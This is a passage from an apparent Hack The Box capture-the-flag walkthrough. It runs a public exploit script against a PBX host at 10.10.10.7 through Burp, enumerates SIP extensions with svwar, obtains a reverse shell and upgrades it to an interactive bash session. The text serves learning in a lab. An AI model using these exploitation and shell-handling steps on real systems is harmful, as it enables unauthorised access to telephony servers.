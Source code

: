 - What that does is it redirects localhost to https://10.10.10.7 while passing all the requests and responses through Burp. This way the python script doesn’t have to handle HTTPS and therefore we avoid the SSL error we are getting.

- Let’s try running it again.
```bash
python 18650.py
```

- It runs but we don’t get a shell back. The nice thing about doing this with Burp is that we can see the request & response. In Burp go to **Proxy** \> **HTTP history** and click on the request. In the **Request** tab, right click and send it to repeater. As can be seen, the error message we get is as follows.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/89.jpg)

- This might have to do with the default extension value in the script. We don’t actually know if the value 1000 is a valid extension. To figure that out, we’ll have to use the [SIPVicious security tools](https://github.com/EnableSecurity/sipvicious). In particular, the svwar tool identifies working extension lines on a PBX. Let’s run that tool to enumerate valid extensions.

```bash
python svwar.py -m INVITE -e100-500 10.10.10.7
```

-   **\-m:** specifies a request method
-   **\-e:** specifies an extension or extension range

We get back the following result.

```bash
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night  
| Extension | Authentication |  
\------------------------------  
| 233 | reqauth |
```

- 233 is a valid extension number. Change the extension in the script and run it again.

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/6/90.jpg)

- We have a shell! Let’s first upgrade the shell to a partially interactive bash shell.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

- To get a fully interactive shell, background the session (CTRL+ Z) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```bash
stty raw -echo
```
- Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```bash
export TERM=xterm
```
- Now that we have a fully interactive shell, let’s grab the user.txt flag.
